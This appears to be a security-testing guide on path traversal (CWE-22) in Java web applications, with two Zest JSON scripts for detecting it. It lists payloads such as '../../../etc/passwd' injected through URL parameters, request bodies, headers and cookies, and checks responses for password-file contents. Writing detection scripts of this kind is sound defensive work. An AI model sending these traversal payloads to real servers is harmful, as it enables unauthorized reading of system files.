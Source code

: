 # Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') (CWE-022) in Java

###### Overview

**Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')**:
  - This vulnerability occurs when an application insecurely processes file paths, allowing unauthorized access to directories outside the intended scope.
  - Special characters like `../` or `%2e%2e%2f` may be used in inputs (e.g., URL parameters, HTTP request bodies) to manipulate paths and access restricted files.
  - Examples of manifestations in Java Web Applications:
    - Direct usage of inputs in file operations without sanitization.
    - Insufficient validation in servlet or JSP handling file paths.
    - Insecure configurations in popular frameworks like Spring and Struts.

### Common Injection Points:

- **URL parameters**: 
  ```example.com/viewFile?file=../../../etc/passwd```
- **HTTP request bodies**:
  ```json
  {
    "filePath": "../../../etc/passwd"
  }
  ```
- **HTTP headers**:
  ```Referer: http://example.com/../../../etc/passwd```
- **Cookies**:
  ```Cookie: session=../../../../etc/passwd```
- **Query strings**:
  ```example.com/?file=../../../../etc/passwd```

### Indicators of Success:

- **HTTP Responses**:
  - Specific error messages (e.g., "File not found" showing sensitive directories).
  - Certain status codes (e.g., 200 OK or 500 Internal Server Error).
  - Response body containing parts of the requested files or sensitive directories.

### Zest Scripting for Path Traversal Detection

#### Example Script Components:

1. **ZestRequest**: To send a crafted request with path traversal payload.
2. **ZestAssertion**: To check for expected indicators of success (like specific error messages or response codes).
3. **ZestConditionRegex**: To match content in the response body that indicates a successful traversal.

#### JSON Example Script

**1. URL Parameter Traversal:**

```json
{
  "title": "Path Traversal via URL Parameter",
  "description": "Detects path traversal vulnerabilities by injecting payloads into URL parameters.",
  "author": "Your Name",
  "prefix": "http://example.com/",
  "steps": [
    {
      "index": 1,
      "elementType": "ZestRequest",
      "url": "http://example.com/viewFile?file=../../../etc/passwd",
      "method": "GET"
    },
    {
      "index": 2,
      "elementType": "ZestAssertion",
      "rootExpression": {
        "elementType": "ZestExpression",
        "not": false,
        "rootExpression": {
          "elementType": "ZestExpressionRegex",
          "variableName": "response.body",
          "regex": "root:x:0:0:"
        }
      }
    }
  ]
}
```

**2. HTTP Body Traversal:**

```json
{
  "title": "Path Traversal via HTTP Body",
  "description": "Detects path traversal vulnerabilities by injecting payloads into HTTP request bodies.",
  "author": "Your Name",
  "prefix": "http://example.com/",
  "steps": [
    {
      "index": 1,
      "elementType": "ZestRequest",
      "url": "http://example.com/upload",
      "method": "POST",
      "data": "{ \"filePath\": \"../../../etc/passwd\" }",
      "headers": {
        "Content-Type": "application/json"
      }
    },
    {
      "index": 2,
      "elementType": "ZestAssertion",
      "rootExpression": {
        "elementType": "ZestExpression",
        "not": false,
        "rootExpression": {
          "elementType": "ZestExpressionRegex",
          "variableName": "response.body",
          "regex": "root:x:0:0:"
        }
      }
    }
  ]
}
```

### Explanation

- **Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')**
  - This vulnerability allows malicious users to access unauthorized files and directories by manipulating file paths used in the application.
  - Exploiting this can lead to the exposure of sensitive data, unauthorized access to configuration files, and potentially taking control of the server.

- **URL Parameter Traversal Script Details**:
  - **Step 1**: Sends a `GET` request to `viewFile` endpoint with a crafted file path aiming to reach `/etc/passwd`.
  - **Step 2**: Uses a `ZestAssertion` to verify if the response body contains the string "root:x:0:0:", indicating the presence of the `/etc/passwd` file content.

- **HTTP Body Traversal Script Details**:
  - **Step 1**: Sends a `POST` request to `upload` endpoint with JSON payload containing a malicious file path.
  - **Step 2**: Similar to URL parameter traversal, it checks if the response body shows signs of a successful path traversal.

### References:

- **Zest Scripting Documentation**: Provides details on the elements used in the scripts like `ZestRequest`, `ZestAssertion`, `ZestConditionRegex` .